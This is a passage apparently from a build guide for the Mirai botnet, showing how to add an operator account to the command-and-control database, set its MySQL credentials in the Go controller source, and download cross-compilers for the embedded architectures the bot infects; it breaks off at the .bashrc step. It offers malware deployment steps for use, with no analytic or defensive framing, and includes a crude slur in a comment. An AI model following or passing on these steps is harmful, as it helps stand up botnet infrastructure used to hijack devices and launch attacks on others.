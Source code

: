 ```sql    
INSERT INTO users VALUES (NULL, 'anna-senpai', 'myawesomepassword', 0, 0, 0, 0, -1, 1, 30, '');
```
    

Now, go into file `./mirai/cnc/main.go`

Edit these values

```c    
const DatabaseAddr string   = "127.0.0.1"
const DatabaseUser string   = "root"
const DatabasePass string   = "password"
const DatabaseTable string  = "mirai"
```

To the information for the mysql server you just installed.


## Setting Up Cross Compilers

Cross compilers are easy, follow the instructions at this link to set up. You must restart your system or 
reload .bashrc file for these changes to take effect.

```bash
# RUN ALL OF THESE AS A PRIVELEGED USER, SINCE WE ARE DOWNLOADING INTO /etc

# You're gay if you don't use Debian
apt-get install gcc golang electric-fence

mkdir /etc/xcompile
cd /etc/xcompile

wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2

tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-i586.tar.bz2
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2

rm *.tar.bz2
mv cross-compiler-armv4l armv4l
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc

-- END --

# PUT THESE COMMANDS IN THE FILE ~/.bashrc

# Cross compiler toolchains
```